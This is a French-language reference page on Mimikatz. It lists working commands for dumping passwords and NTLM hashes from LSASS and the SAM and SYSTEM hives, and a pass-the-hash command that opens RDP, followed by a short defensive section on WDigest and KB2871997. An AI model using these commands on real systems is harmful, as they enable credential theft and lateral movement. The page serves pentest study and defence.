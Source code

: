 ```yaml
---
title: Mimikatz
permalink: /Mimikatz/
---
```


# Mimikatz

## Commandes utiles

Repris de https://github.com/gentilkiwi/mimikatz/wiki

### Récupération mots de passe

#### online

``` text
privilege::debug
sekurlsa::logonpasswords
```

#### offline

A partir d'un dump lsass.dmp

``` text
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

### Récupération de hashs

#### online

``` text
privilege::debug
token::elevate
lsadump::sam
```

#### offline

Récupérer SAM et system:
```text
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
```
Dumper les hashs avec mimikatz:
```text
lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv
```

### Pass the hash et RDP
``` text
privilege::debug
sekurlsa::pth /user:heidegger /domain:SHINRA-INC /ntlm:XXXXXXXXXXXXXXXX /run:"mstsc.exe /restrictedadmin"
```

## Secrets d'authentification en mémoire

Les "logins" suivants provoquent le stockage d'information d'authenficaction en mémoire (https://technet.microsoft.com/en-us/windows-server-docs/security/securing-privileged-access/securing-privileged-access-reference-material#a-nameatltbmaadministrative-tools-and-logon-types):

-   Log on at console
-   Remote Desktop
-   RunAs
-   Powershell WiRM with CredSSP
-   PsExec with explicit creds
-   Scheduled Task
-   Tool running as a service
-   IIS "Basic Authentication"

Trucs & astuces:
- Sous les vieilles versions de Windows il est possible d'utiliser mimilove.
- Il est possible de dumper lsass et de l'analyser offline avec mimikatz.

## Défenses

Il existe plusieurs mécanismes pour se défendre contre les attaques utilisant Mimikatz (Plus d'informations sur ADSecurity: <https://adsecurity.org/?p=559>)

### Désactiver wdigest

A partir de Windows 8.1 et Windows Server 2012 les mots de passes ne sont plus stockés en mémoire par défaut. De plus il est possible de faire en sorte que les mots de passe n'apparaissent pas en mémoire dans les anciennes versions de Windows. Il faut pour cela:

-   Appliquer le patch KB2871997
-   Modifier la clé de registre suivante pour qu'elle ait 0:

``` text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)
```


Références
----------

-   [Unofficial Guide to Mimikatz & Command Reference - ADSecurity](https://adsecurity.org/?page_id=1821)
-   [Mimikatz Overview, Defenses and Detection](https://www.sans.org/reading-room/whitepapers/detection/mimikatz-overview-defenses-detection-36780)
-   [Utilisation avancée de Mimikatz](http://connect.ed-diamond.com/MISC/MISC-066/Utilisation-avancee-de-Mimikatz)
-   [Administrative Tools and Logon Types](https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material#ATLT_BM): Information sur la réutilisation des mots de passe

